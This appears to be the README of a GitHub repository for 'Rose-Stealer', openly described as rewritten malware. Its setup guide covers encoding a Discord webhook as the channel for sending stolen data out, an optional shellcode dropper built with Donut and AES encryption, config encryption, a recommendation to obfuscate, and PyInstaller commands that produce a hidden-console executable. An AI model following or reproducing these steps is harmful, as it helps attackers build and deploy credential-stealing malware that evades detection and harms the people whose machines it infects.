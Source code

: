 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> I am not liable for anything that is happening with this software.
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. client\ `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py payload\shellc.dat payload\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py payload\config.ini payload\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/payload/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit) <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary:
  - **Dropper enabled:**
  `pyinstaller --noconsole --onefile --clean --add-data "payload\shellc.aes;." --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`
  - **Dropped disabled:**
  `pyinstaller --noconsole --onefile --clean --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`

**Yay! Your executable is now inside of the `dist` folder.**
